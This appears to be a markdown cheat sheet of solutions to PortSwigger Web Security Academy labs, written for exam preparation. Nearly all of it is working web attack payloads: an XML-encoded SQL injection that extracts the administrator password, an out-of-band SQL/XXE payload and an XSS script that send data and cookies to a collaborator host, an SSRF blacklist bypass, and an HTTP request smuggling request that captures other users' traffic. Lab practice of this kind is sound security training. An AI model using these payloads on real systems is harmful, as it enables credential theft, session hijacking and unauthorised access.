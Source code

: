 "These labs have been selected because they reinforce core web security testing skills - such as understanding encodings and using them to evade defences, and proficiency in exploiting cross-user attacks. These specific labs support your exam preparation in terms of skill development, but they are in no way a list of the components you'll be expected to solve to complete the exam."

# [0x1] Lab: SQL injection with filter bypass via XML encoding
You will need [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) Burp Suite Extension
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
      <productId>
        2
      </productId>
    <storeId>
      <@hex_entities>
        1 union select password from users where username='administrator' 
      <@/hex_entities>
    </storeId>
  </stockCheck>
```

# [0x2] Lab: Blind SQL injection with out-of-band data exfiltration
### Identify vulnerability:
```sql
aaxaxa'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://x.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
```
Control + U for URL Encoding and SEND

### Data exfiltration
```sql
'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```
Control + U for URL Encoding and SEND

# [0x3] Lab: Exploiting cross-site scripting to steal cookies 
A simulated victim user views all comments after they are posted.<br>
Write this payload into comment section:
```js
<script> document.location = "http://<BURP-COLLABORATOR>/?" + document.cookie </script>
```

# [0x4] Lab: SSRF with blacklist-based input filter
```
http://127.1/%2561dmin/delete?username=carlos
```

# [0x5] Lab: Exploiting HTTP request smuggling to capture other users' requests

Send this request to repeater and with HTTP Request Smuggler extension CL.TE send the requests a lot of times till the victim user visit our post requests
```
POST / HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Connection: close
Transfer-Encoding: chunked
Content-Length: 382

0

POST /post/comment HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 910
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c

csrf=OFh9DBRBkec4d8Xmh2rzVGNUZuDZlbH0&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=aa
```
